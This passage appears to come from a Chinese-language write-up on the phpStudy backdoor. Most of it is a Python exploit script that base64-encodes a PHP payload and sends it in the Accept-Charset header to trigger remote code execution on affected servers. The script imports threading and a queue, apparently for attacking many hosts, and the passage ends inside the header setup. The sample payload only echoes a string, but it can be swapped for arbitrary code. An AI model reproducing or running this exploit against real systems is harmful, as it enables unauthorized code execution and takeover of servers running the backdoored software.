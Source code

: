 ![7.jpg](./resource/Phpstudy后门(非官方后门！！！)/media/rId37.jpg)

图5：Payload回显验证

### exp

    #!/usr/bin/env python3
    #-*- encoding:utf-8 -*-
    # 卿 博客:https://www.cnblogs.com/-qing-/

    import base64
    import requests
    import threading
    import queue


    print("======Phpstudy Backdoor Exploit============\n")
    print("===========By  Qing=================\n")
    print("=====Blog：https://www.cnblogs.com/-qing-/==\n")
    payload = "echo \"qing\";"
    payload = base64.b64encode(payload.encode('utf-8'))
    payload = str(payload, 'utf-8')
    headers = {
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'accept-charset': payload,
        'Accept-Encoding': 'gzip,deflate',
        'Connection': 'close',
    }


